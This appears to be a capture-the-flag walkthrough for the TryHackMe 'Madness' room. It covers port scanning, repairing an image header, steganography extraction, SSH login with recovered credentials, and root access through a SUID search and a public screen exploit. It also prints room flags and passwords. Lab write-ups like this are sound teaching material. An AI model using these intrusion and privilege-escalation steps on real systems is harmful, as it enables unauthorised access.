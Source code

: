 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```
```
death@esther:~$ nmap -sC -sV 10.10.183.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 21:50 IST
Nmap scan report for 10.10.183.133
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## On apache2 default page there is a comment and Path of img.
<div align="center">
  <img src="https://github.com/user-attachments/assets/0d7cda38-0438-4380-8cf5-5fb5b05902c5" height=""></img>
</div>


## Let download this imge
```
wget http://10.10.183.133/thm.jpg
```
## Its not an image as i examined the first 12 bits of and converted it to a **JPG** format.
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
curl -s http://<IP>/th1s_1s_h1dd3n/
curl -s http://<IP>/th1s_1s_h1dd3n/?secret=34
python secret.py
# y2RPJ4QaPF!B 
steghide info thm.jpg
steghide extract -sf thm.jpg
cat hidden.txt
# wbxre
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# joker
wget https://<IP>/5iW7kC8.jpg
steghide info 5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
sshpass -p "*axA&GF8dP" ssh joker@<IP>
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

```
find / -user root -perm -u=s 2>/dev/null
ls -l /bin/screen*
# https://www.exploit-db.com/exploits/41154
sh 41154.sh 
cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```
